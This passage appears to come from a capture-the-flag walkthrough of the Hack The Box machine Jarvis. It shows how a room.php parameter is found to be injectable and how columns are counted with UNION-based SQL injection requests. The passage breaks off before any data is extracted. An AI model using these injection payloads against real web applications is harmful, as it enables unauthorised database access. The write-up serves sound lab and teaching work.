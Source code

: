After going through all special characters, five of them result in different sizes:
- Ampersand _(&)_
- Number sign _(#)_
- Plus sign _(+)_
- Dot _(.)_
- Semicolon _(;)_

The _ampersand_ and _number sign_ are all default symbols in URLs in general, but the _semicolon_, the _dot_ and the _plus sign_ could be used for either math or separating commands.

When trying out math with the _plus sign_ nothing changes and no room gets shown:
```markdown
GET /room.php?cod=1+2
```

But when using math with a _minus sign_ to subtract from the value, it displays that room. In this example, the website shows room 2:
```markdown
GET /room.php?cod=3-1
```

This means there is some **SQL Injection** to exploit.

### Exploiting SQL Injection

The SQL query we are sending looks probably somewhat like this:
```sql
SELECT id, image-url, rating, roomname, cost, description FROM rooms WHERE cod = 1
```

This means we control everything after the _WHERE_ statement and the [MySQL Query Syntax](https://dev.mysql.com/doc/refman/5.7/en/select.html) helps with the query commands.  
The _UNION_ command also comes after the _WHERE_ command, so this is a **UNION-based SQL Injection**.

Trying out how many statements are needed until it gives a valid response:
```markdown
GET /room.php?cod=1 union select 1
GET /room.php?cod=1 union select 1,2
GET /room.php?cod=1 union select 1,2,3
(...)
GET /room.php?cod=1 union select 1,2,3,4,5,6,7
```

At seven the web page shows a result which means, there are 7 _SELECT_ statements in this query, so update our imaginary query:
```sql
SELECT id, image-url, rating, roomname, cost, description, UNKOWN FROM rooms WHERE cod = 1 UNION 1,2,3,4,5,6,7-- -
```

When trying an invalid room number, the response changes:
```markdown
GET /room.php?cod=123 union select 1,2,3,4,5,6,7
```

![UNION SQL Injection](https://kyuu-ji.github.io/htb-write-up/jarvis/jarvis_web-1.png)
